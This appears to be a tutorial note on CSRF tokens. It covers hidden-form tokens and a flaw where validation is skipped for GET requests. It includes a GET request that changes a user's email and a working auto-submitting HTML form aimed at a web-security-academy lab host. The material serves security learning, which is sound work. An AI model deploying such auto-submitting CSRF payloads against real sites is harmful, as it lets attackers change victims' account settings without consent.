 A common way to share CSRF tokens with the client is to include them as a hidden parameter in an HTML form, for example:

``` html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```
 Submitting this form results in the following request: 
```HTTP
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```
When implemented correctly, CSRF tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of the victim. As the attacker has no way of predicting the correct value for the CSRF token, they won't be able to include it in the malicious request. 

CSRF tokens don't have to be sent as hidden parameters in a POST request. Some applications place CSRF tokens in HTTP headers, for example. The way in which tokens are transmitted has a significant impact on the security of a mechanism as a whole.

### Common flaws in CSRF token validation

##### 1)Validation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used. 
In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF 

```HTTP
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

```html

<html>
    <body>
        <form action="https://0a0d00f703d3369d8120adf8001e0067.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" placeholder="Enter email"    value="csrf@csrf.com">
        </form>
        <script>
        window.onload = function() {
            document.forms[0].submit();
            //there is only 1 from in this page so index 0 
        }
        </script>
    </body>
</html>
```
